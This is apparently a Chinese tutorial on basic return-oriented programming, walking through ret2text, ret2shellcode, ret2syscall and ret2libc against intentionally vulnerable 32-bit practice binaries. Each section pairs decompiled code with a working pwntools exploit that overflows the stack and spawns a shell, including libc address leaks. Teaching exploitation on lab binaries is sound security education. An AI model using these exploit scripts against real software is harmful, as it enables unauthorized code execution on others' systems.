








# 基本ROP

因为NX保护的开启，直接向栈或者堆上直接注入代码的方式变得不可行，随之而生的是ROP(Return Oriented Programming)技术，栈缓冲区溢出的基础上，利用程序中已有的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程。

ROP一般满足的条件：

- 程序存在溢出，并且可以控制返回地址
- 可以找到满足条件的gadgets以及相应的gadgets的地址

## ret2text

ret2text 即控制程序执行程序本身已有的的代码 (.text)。
例子，

```c++
    int __cdecl main(int argc, const char **argv, const char **envp)
    {
    int v4; // [sp+1Ch] [bp-64h]@1

    setvbuf(stdout, 0, 2, 0);
    setvbuf(_bss_start, 0, 1, 0);
    puts("There is something amazing here, do you know anything?");
    gets((char *)&v4);
    printf("Maybe I will tell you next time !");
    return 0;
    }
```

32位程序，仅开启了NX保护。main函数中，gets函数会造成栈溢出，此外还存在一个后门函数secure

```c++
    void secure()
    {
    unsigned int v0; // eax
    int input; // [esp+18h] [ebp-10h]
    int secretcode; // [esp+1Ch] [ebp-Ch]

    v0 = time(0);
    srand(v0);
    secretcode = rand();
    __isoc99_scanf((const char *)&unk_8048760, &input);
    if ( input == secretcode )
        system("/bin/sh");
    }
```

后门函数中逻辑也比较简单，需要让输入值等于随机生成的数才能执行`system("/bin/sh")`
因为函数中存在指令`system("/bin/sh")`，所以可以直接将main函数的retn到0x0804863A,然后就可以直接拿到shell；

```python
    from pwn import *

    p = process('./ret2text')

    target = 0x0804863A
    p.sendline('A'*(0x6c+4) + p32(target))
    p.interactive()

```

## ret2shellcode

hellcode 指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的 shell。在栈溢出的基础上，要想执行 shellcode，需要对应的 binary 在运行时，shellcode 所在的区域具有可执行权限。
例子，

```c++
    int __cdecl main(int argc, const char **argv, const char **envp)
    {
    char s; // [esp+1Ch] [ebp-64h]

    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 1, 0);
    puts("No system for you this time !!!");
    gets(&s);
    strncpy(buf2, &s, 0x64u);
    printf("bye bye ~");
    return 0;
    }
```

程序很简单，而且几乎没有开启任何保护，并且有可读，可写，可执行段



通过主函数的伪代码可以知道，再获取输入之后strncpy会将输入的前0x64字节复制到`.bss:0804A080`处，先开启调试，看一看这一部分是否可执行



结果可知部分地址可执行，所以就可以控制程序执行 shellcode，也就是读入 shellcode，然后控制程序执行 bss 段处的 shellcode。

```python
    # shellcode
    from pwn import *

    p = process('./ret2shellcode')
    shellcode = asm(shellcraft.sh())
    buf2_addr = 0x0804A080

    p.recvuntil("No system for you this time !!!")
    payload = shellcode.ljust((0x6c+4),'A') + p32(buf2_addr)
    p.sendline(payload)
    sleep(1)
    p.interactive()
    # 其他解法
    from pwn import *
    from LibcSearcher import *

    p = process('./ret2shellcode')
    elf = ELF('./ret2shellcode')
    puts_plt = elf.plt['puts']
    puts_got = elf.got['puts']
    log.info('puts_plt = %#x, puts_got = %#x'%(puts_plt,puts_got))

    p.recvuntil("No system for you this time !!!")
    payload = 'A'*(0x6c+4)
    payload += p32(puts_plt) + p32(0x08048430) + p32(puts_got)
    p.sendline(payload)

    p.recvuntil("bye bye ~")
    puts_addr = u32(p.recv(4))
    log.info('puts_addr = %#x',puts_addr)

    libc = LibcSearcher('puts',puts_addr)
    libc_base = puts_addr - libc.dump('puts')
    system_addr = libc_base + libc.dump('system')
    binsh_addr = libc_base + libc.dump('str_bin_sh')
    log.info('system_addr = %#x, binsh_addr = %#x'%(system_addr,binsh_addr))

    p.recvuntil('No system for you this time !!!')
    payload = 'A'*(0x6c+4)
    payload += p32(system_addr) + p32(0x08048430) + p32(binsh_addr)
    p.sendline(payload)
    sleep(1)
    p.interactive()
```

## ret2syscall

ret2syscall，即控制程序执行系统调用，获取 shell。
例子，

```c++
    int __cdecl main(int argc, const char **argv, const char **envp)
    {
    int v4; // [esp+1Ch] [ebp-64h]

    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 1, 0);
    puts("This time, no system() and NO SHELLCODE!!!");
    puts("What do you plan to do?");
    gets(&v4);
    return 0;
    }
```

程序依旧简单，存在明显的溢出点，但是程序没有后门函数而且开启了NX保护，shellcode的办法不在有效，通过工具并没有找到system函数，不过可以找到`int 0x80`,所以可以通过系统调用来拿到shell



```c++
    execve("/bin/sh",NULL,NULL) // 系统调用号为0xb（32位程序）
```

该程序是 32 位，所以我们需要使得

- 系统调用号，即 eax 应该为 0xb
- 第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
- 第二个参数，即 ecx 应该为 0
- 第三个参数，即 edx 应该为 0

接下来就需要通过工具来寻找gadgets了




至此，设置寄存器的值的gadgets已全部找到。
此外，还需要获得`/bin/sh`的地址



```python
    from pwn import *

    p = process('./ret2syscall')

    pop_eax_ret = 0x080bb196
    pop_edx_ecx_ebx_ret = 0x0806eb90
    int_0x80 = 0x08049421
    binsh = 0x80be408
    payload = flat(
        ['A'*(0x6c+4), pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
    # payload = 'A'*(0x6c+4)
    # payload += p32(pop_eax_ret) + p32(0xb) # 设置eax=0xb
    # payload += p32(pop_edx_ecx_ebx_ret) + p32(0) + p32(0) + p32(binsh)    # 设置 edx=ecx=0, ebx=binsh
    # payload += p32(int_0x80) # 系统调用

    p.sendline(payload)
    sleep(1)
    p.interactive()
```

## ret2libc

ret2libc 即控制函数的执行 libc 中的函数，通常是返回至某个函数的 plt 处或者函数的具体位置 (即函数对应的 got 表项的内容)。一般情况下，我们会选择执行 system("/bin/sh")，故而此时我们需要知道 system 函数的地址。

例子1，

```c++
    int __cdecl main(int argc, const char **argv, const char **envp)
    {
    char s; // [esp+1Ch] [ebp-64h]

    setvbuf(stdout, 0, 2, 0);
    setvbuf(_bss_start, 0, 1, 0);
    puts("RET2LIBC >_<");
    gets(&s);
    return 0;
    }
```

程序很简单，溢出点就在main函数中，此外secure函数中还有system函数

```c++
void secure()
{
  unsigned int v0; // eax
  int input; // [esp+18h] [ebp-10h]
  int secretcode; // [esp+1Ch] [ebp-Ch]

  v0 = time(0);
  srand(v0);
  secretcode = rand();
  __isoc99_scanf("%d", &input);
  if ( input == secretcode )
    system("shell!?");
}
```

借助工具查看是否有现成的`/bin/sh`



```python
    from pwn import *

    p = process('./ret2libc1')
    system_plt = ELF('./ret2libc1').sym['system']
    log.info('system_plt = %#x',system_plt)

    binsh_addr = 0x8048720
    payload = flat(['A'*(0x6c+4), system_plt, 0x080484D0, binsh_addr])
    # payload = 'A'*(0x6c+4) + p32(system_plt) + p32(0x080484D0) + p32(binsh_addr)
    p.sendline(payload)
    sleep(1)
    p.interactive()
```

例子2，

与 ret2libc1 大同小异，只不过没有 /bin/sh 字符串，需要自己来读取字符串，所以需要两个 gadgets，第一个控制程序读取字符串，第二个控制程序执行 system("/bin/sh")。

```c++
    int __cdecl main(int argc, const char **argv, const char **envp)
    {
    char s; // [esp+1Ch] [ebp-64h]

    setvbuf(stdout, 0, 2, 0);
    setvbuf(_bss_start, 0, 1, 0);
    puts("Something surprise here, but I don't think it will work.");
    printf("What do you think ?");
    gets(&s);
    return 0;
    }
```

```python
    from pwn import *

    p = process('./ret2libc2')
    elf = ELF('./ret2libc2')

    system_plt = elf.sym['system']
    gets_plt = elf.sym['gets']
    log.info("system_plt = %#x, gets_plt = %#x"%(system_plt,gets_plt))

    binsh_addr = 0x0804A080
    pop_ebx = 0x0804843D
    payload = flat(['A'*(0x6c+4), gets_plt, pop_ebx, binsh_addr, system_plt, 0x08048500, binsh_addr])
    # payload = 'A'*(0x6c+4) + p32(gets_plt) + p32(system_plt) + p32(binsh_addr) + p32(binsh_addr)

    p.sendline(payload)
    sleep(0.1)
    p.sendline('/bin/sh\x00')
    sleep(1)
    p.interactive()
```

例子3，

```c++
    int __cdecl main(int argc, const char **argv, const char **envp)
    {
    char s; // [esp+1Ch] [ebp-64h]

    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 1, 0);
    puts("No surprise anymore, system disappeard QQ.");
    printf("Can you find it !?");
    gets(&s);
    return 0;
    }
```

与前两个程序溢出点一致，但没了 system 和 /bin/sh, 不过可以输出函数puts泄露出got表中某个函数的地址，然后通过`LibcSearcher`获取相应版本来拿到shell，当然本地也可以通过`ldd`查看程序的动态连接库，然后根据libc获取shell



基本利用思路如下：

- 泄露 got表中函数的地址
- 获取 libc 版本
- 获取 system 地址与 /bin/sh 的地址
- 再次执行源程序
- 触发栈溢出执行 system(‘/bin/sh’)

```python
    from pwn import *
    from LibcSearcher import *

    p = process('./ret2libc3')
    # lib = ELF('/lib/i386-linux-gnu/libc.so.6')
    # system_offset = lib.sym['system']
    # binsh_offset = next(lib.search('/bin/sh'))
    # puts_offset = lib.sym['puts']
    # log.info('system_offset = %#x, binsh_offset = %#x, puts_offset = %#x'%(system_offset,binsh_offset,puts_offset))

    elf = ELF('./ret2libc3')
    puts_plt = elf.sym['puts']
    puts_got = elf.got['puts']
    payload = flat(['A'*(0x6c+4), puts_plt, 0x080484D0, puts_got])
    p.sendlineafter('Can you find it !?', payload)
    sleep(0.1)
    puts_addr = u32(p.recv(4))
    log.info('puts_addr = %#x',puts_addr)

    libc = LibcSearcher('puts',puts_addr)
    libc_base = puts_addr - libc.dump('puts')
    system_addr = libc_base + libc.dump('system')
    binsh_addr = libc_base + libc.dump('str_bin_sh')
    # system_addr = puts_addr - (puts_offset - system_offset)
    # binsh_addr = puts_addr - (puts_offset - binsh_offset)
    log.info('system_addr = %#x, binsh_addr = %#x'%(system_addr,binsh_addr))

    payload = flat(['A'*(0x6c+4), system_addr, 0x080484d0, binsh_addr])
    p.sendline(payload)
    sleep(1)
    p.interactive()
```
